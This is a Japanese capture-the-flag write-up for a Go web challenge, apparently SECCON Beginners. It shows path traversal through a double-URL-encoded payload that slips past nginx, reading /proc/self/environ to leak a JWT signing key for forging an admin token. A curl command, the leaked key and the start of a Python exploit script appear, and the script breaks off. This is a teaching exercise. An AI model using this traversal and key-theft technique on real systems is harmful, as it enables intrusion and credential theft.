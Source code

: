 appのログイン機構ではjwtのpayloadのうち、admin(管理者)かどうかを判定するIsAdminパラメータが必ずfalseであるjwtトークンを出力するようになっているためadmin(管理者)としてログインできません。

```go
// Generate JWT token
claims := &UserClaims{
  &jwt.RegisteredClaims{
    ExpiresAt: jwt.NewNumericDate(time.Now().Add(time.Hour * 24 * 7)),
  },
  username,
  false, // ここがIsAdminパラメータ
}
```

今回のjwtトークン生成はHS256形式で行っており、ユーザー名とIsAdminパラメータを含んだpayloadを`JWT_SECRET_KEY`で署名することで生成しています。ですのでIsAdminパラメータがtrueのトークンを生成するためには環境変数で指定されている`JWT_SECRET_KEY`が必要になります。

ここでappの実装を見てみるとファイル取得を行う`/static`エンドポイントの実装がパストラバーサルが可能になっていることが分かります。

```go
e.GET("/static/:file", func(c echo.Context) error {
  path, _ := url.QueryUnescape(c.Param("file"))
  f, err := ioutil.ReadFile("static/" + path)
  if err != nil {
    return c.String(http.StatusNotFound, "No such file")
  }
  return c.Blob(http.StatusOK, mime.TypeByExtension(filepath.Ext(path)), []byte(f))
})
```

もしpathに`../`などを指定できれば上の階層のファイルを取得できます。

また`JWT_SECRET_KEY`は環境変数で指定されていますがLinuxではプロセスからそのプロセスへ付与されている環境変数を`/proc/self/environ`から取得できる仕組みがあります。

よってpathに`../../proc/self/environ`を指定して`JWT_SECRET_KEY`を取得→IsAdminパラメータがtrueのjwtトークンを偽造することでフラグを取得できます。

ただし、appへアクセスするときにはnginxを経由する構成になっており、nginxでURL中の`../`が弾かれてしまうためそのまま指定するだけでは`JWT_SECRET_KEY`を取得できません。

appでは`url.QueryUnescape`というURLエンコードされた文字列をデコードする処理が行われていますがこれは2回URLエンコードを行った文字列のデコードにも対応している関数なので`../../proc/self/environ`を2回URLエンコードを行った文字列`%252e%252e%252f%252e%252e%252fproc/self/environ`を指定することでnginxに弾かれることなく`JWT_SECRET_KEY`を取得できます

```
$ curl "https://ironhand.quals.beginners.seccon.jp/static/%252e%252e%252f%252e%252e%252fproc/self/environ" -o env.txt ; cat env.txt ; rm env.txt
HOSTNAME=a98210d82749JWT_SECRET_KEY=U6hHFZEzYGwLEezWHMjf3QM83Vn2D13dSHLVL=1HOME=/home/appuserPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binPWD=/app
```

`JWT_SECRET_KEY=U6hHFZEzYGwLEezWHMjf3QM83Vn2D13d`と取得できたのでこれでjwtトークンを偽造することでフラグを取得できます。

```python
import re, os
import requests
import jwt
import time


def crawl(url):
    try:
        s = requests.Session()
        req = requests.Request(
            method="GET",
            url=url,
        )
        prep = req.prepare()
        prep.url = url + "/static/%252e%252e%252f%252e%252e%252fproc/self/environ"
```